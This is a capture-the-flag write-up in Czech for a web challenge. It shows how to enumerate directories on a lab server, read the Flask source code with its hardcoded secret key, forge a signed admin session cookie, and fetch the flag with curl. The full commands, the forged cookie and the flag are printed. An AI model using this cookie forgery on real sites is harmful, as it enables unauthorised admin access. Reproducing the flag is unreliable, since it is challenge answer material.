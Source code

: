 # Social Network

## Zadání

```
Hi Expert,

the application running on http://78.128.216.18:65181 was probably some kind of social network. Get access to the system and export any valuable data.

Good Luck!

Hint: If you get admin access, exporting will be more fun.
Hint: It will be useful to find and download the application.
```

## Řešení

* Na stránce http://78.128.216.18:65181/ je přihlašovací formulář
* Při pokusu o přihlášení jako `admin` vypíše: `invalid credentials`
* Stránka nastavuje cookie: `session=eyJ1c2VybmFtZSI6bnVsbH0.YXluwA.bftHbAh9kuKOgu2OGi2-clPshHI`
* Cookie je v base64 a první část (před [tečkou](https://www.ceskoockuje.cz/)) obsahuje data `{"username":null}`, dále ale cookie obsahuje podpis, takže `{"username":"admin"}` nelze jednoduše podvrhnout
* Podle druhého hintu je tak třeba hledat zdrojový kód aplikace - například pomocí `dirb`:

```
dirb http://78.128.216.18:65181/

---- Scanning URL: http://78.128.216.18:65181/ ----
+ http://78.128.216.18:65181/login (CODE:405|SIZE:178)
+ http://78.128.216.18:65181/logout (CODE:302|SIZE:208)
+ http://78.128.216.18:65181/server-status (CODE:403|SIZE:281)
==> DIRECTORY: http://78.128.216.18:65181/web/
```

* Zdrojový kód je tedy v http://78.128.216.18:65181/web/, kde je zapnutý directory listing
* Jedná se o webovou aplikaci napsanou v python-flask
* Důležitý je kód v http://78.128.216.18:65181/web/app.py

```python
"""my superprofile app"""

import os

from flask import flash, Flask, redirect, render_template, request, session, url_for


FLAG = os.environ.get('FLAG', 'admin')
USERS = {'admin': FLAG}

app = Flask(__name__)
app.secret_key = 'f3cfe9ed8fae309f02079dbf'


@app.before_request
def before_request():
    """before request handler"""

    if 'username' not in session:
        session['username'] = None


@app.route('/')
def index():
    """login route"""

    return render_template('index.html', username=session.get('username'), data=FLAG)


@app.route('/login', methods=['POST'])
def login():
    """login route"""

    if request.method == 'POST':
        if USERS.get(request.form.get('username')) == request.form.get('password'):
            session['username'] = request.form['username']
        else:
            flash('invalid credentials')

    return redirect(url_for('index'))


@app.route('/logout')
def logout():
    """logout route"""

    session.pop('username', None)
    return redirect(url_for('index'))
```

* Známe tedy `secret_key` a tak není problém vygenerovat správný podpis cookie - například pomocí https://github.com/noraj/flask-session-cookie-manager

```
python3 flask_session_cookie_manager3.py encode -s f3cfe9ed8fae309f02079dbf -t '{"username":"admin"}'
eyJ1c2VybmFtZSI6ImFkbWluIn0.YXlykw.JtzMrVmwK8HoE9okn2-xxQhk7uQ
```

## Výpis vlajky

```
curl -H "Cookie:session=eyJ1c2VybmFtZSI6ImFkbWluIn0.YXlykw.JtzMrVmwK8HoE9okn2-xxQhk7uQ" http://78.128.216.18:65181/

<html>
<body>
<h1>My superprofile</h1>
	<a href="/logout">logout</a>
	<p>
	<pre>FLAG{r4Kt-Ws0C-J3b3-2EJg}</pre>
</body>
</html>
```
